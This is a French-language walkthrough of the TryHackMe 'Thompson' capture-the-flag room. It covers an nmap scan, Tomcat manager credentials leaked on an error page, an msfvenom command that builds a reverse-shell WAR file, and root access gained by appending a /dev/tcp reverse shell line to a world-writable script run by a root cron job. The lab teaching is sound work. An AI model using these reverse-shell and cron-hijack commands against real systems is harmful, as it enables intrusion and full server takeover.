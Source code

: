 ```yaml
---
title: Thompson (Guatemala CTF)
tags: [TryHackMe, Facile, Tomcat]
style: border
color: thm
comments: false
description: Exploitation d'un serveur Apache Tomcat
---
```

Lien vers l'épreuve : <https://tryhackme.com/r/room/bsidesgtthompson>

![Easy](https://img.shields.io/badge/Difficulté-Facile-Green?logo=tryhackme)

## Sommaire <!-- omit in toc -->

* [1. Reconnaissance](#1-reconnaissance)
* [2. Visite du site](#2-visite-du-site)
* [3. Accès au serveur](#3-accès-au-serveur)
* [4. Flag utilisateur](#4-flag-utilisateur)
* [5. Elevation de privilèges](#5-elevation-de-privilèges)

---

## 1. Reconnaissance

```bash
nmap -T4 -A 10.10.216.88
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-30 15:39 CEST
Nmap scan report for 10.10.216.88
Host is up (0.057s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 fc:05:24:81:98:7e:b8:db:05:92:a6:e7:8e:b0:21:11 (RSA)
|   256 60:c8:40:ab:b0:09:84:3d:46:64:61:13:fa:bc:1f:be (ECDSA)
|_  256 b5:52:7e:9c:01:9b:98:0c:73:59:20:35:ee:23:f1:a5 (ED25519)
8009/tcp open  ajp13   Apache Jserv (Protocol v1.3)
|_ajp-methods: Failed to get a valid response for the OPTION request
8080/tcp open  http    Apache Tomcat 8.5.5
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/8.5.5
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

L'analyse par le scanner Nmap nous montre que la machine héberge un serveur SSH sur le port 22 et un serveur Apache Tomcat sur le port 8080.

Commençons donc par analyser le site.

## 2. Visite du site

Nous arrivons sur la page par défaut d'un serveur Apache.

{% include elements/figure.html image="../images/THM/20240830/VirtualBox_Kali Hack_30_08_2024_15_47_30.png" caption="Première connexion" %}

La tentative de connexion aux outils d'administration en utilisant des identifiants potentiels comme admin/admin ou tomcat/tomcat n'a pas fonctionné.

Lorsque nous annulons finalement l'authentification, nous arrivons sur une page d'erreur particulièrement verbeuse donnant des identifiants.

{% include elements/figure.html image="../images/THM/20240830/Capture_ecran_2024-08-30_401.png" caption="Identifiants dévoilés dans la page d'erreur" %}

## 3. Accès au serveur

En navigant, nous arrivons sur une page permettant de déployer des fichiers au format WAR (*Web Application Archive*)

En faisant une recherche sur la dépôt Github [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings), nous pouvons trouver une commande permettant de créer un fichier WAR malicieux permettant d'obtenir un *reverse shell* :

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.0.0.1 LPORT=4242 -f war > reverse.war
```

Après avoir créé la charge avec les données correspondant à notre machine et avoir mis le port (le même qu'indiqué dans `LPORT`) de notre machine en écoute avec Netcat, nous pouvons téléverser le fichier `reverse.war`, puis cliquer sur le nouveau lien "reverse" qui vient d'apparaître sur l'interface.

Nous sommes à présent connecter au serveur.

```bash
nc -lvnp 9000           
listening on [any] 9000 ...
connect to [10.9.1.218] from (UNKNOWN) [10.10.216.88] 55446
id
uid=1001(tomcat) gid=1001(tomcat) groups=1001(tomcat)
```

## 4. Flag utilisateur

Améliorons le shell obtenu pour faciliter la navigation :

{%- gist ab3c791e25baa7b437d0324f6d3195af -%}

L'utilisateur dont nous devons trouver les identifiants est Jack.

```bash
ls -hAl /home
total 4.0K
drwxr-xr-x 4 jack jack 4.0K Aug 23  2019 jack
```

Les 3 derniers caractères `r-x` indique que n'importe quel utilisateur peut lire ou se déplacer dans le répertoire de l'utilisateur. Mieux encore, le flag utilisateur est également lisible. Tout comme un script `id.sh` qui est également exécutable par tout le monde.

```bash
ls -hl
total 12K
-rwxrwxrwx 1 jack jack 26 Aug 14  2019 id.sh
-rw-r--r-- 1 root root 39 Aug 30 07:26 test.txt
-rw-rw-r-- 1 jack jack 33 Aug 14  2019 user.txt
```

```bash
cat user.txt
39400c[...expurgé...]f181bf
```

## 5. Elevation de privilèges

L'analyse des autres fichiers présents dans le dossier personnel de Jack ne donne pas beaucoup d'informations. Le script permet d'écrire les informations d'un utilisateur dans le fichier test.txt

```bash
ls -hl
total 12K
-rwxrwxrwx 1 jack jack 26 Aug 14  2019 id.sh
-rw-r--r-- 1 root root 39 Aug 30 07:26 test.txt
-rw-rw-r-- 1 jack jack 33 Aug 14  2019 user.txt

cat id.sh
#!/bin/bash
id > test.txt

cat test.txt
uid=0(root) gid=0(root) groups=0(root)
```

 Cependant, en relançant la commande `ls -hl` un peu plus tard, nous observons que le fichier `test.txt` a changé d'horodatage il est donc plus que probable qu'un cronjob tourne sur la machine pour lancer le script id.sh :

```bash
-rw-r--r-- 1 root root 39 Aug 30 07:34 test.txt
```

En analysant le fichier `/etc/crontab` nous pouvons constater qu'il y a bien un job tournant toutes les minutes, en tant que l'utilisateur root.

```bash
* * * * *   root    cd /home/jack && bash id.sh
```

En utilisant le site [Revshells](https://www.revshells.com/) nous pouvons créer une commande à ajouter au fichier `id.sh` pour obtenir un *reverse shell* non plus en tant que "tomcat" mais cette fois "root"

```bash
echo 'sh -i >& /dev/tcp/10.0.0.1/9001 0>&1' >> id.sh
```

Mettons maintenant Netcat en attente sur le port 9001, et attendons le passage de la tâche programmée.

```bash
nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.9.1.218] from (UNKNOWN) [10.10.216.88] 44840
sh: 0: can't access tty; job control turned off
id
uid=0(root) gid=0(root) groups=0(root)
```

Maintenant que nous avons obtenu les droits root sur la machine, il ne reste plus qu'à lire le fichier `/root/root.txt`

```bash
cat root.txt
d89d53[...expurgé...]e7ca3a
```

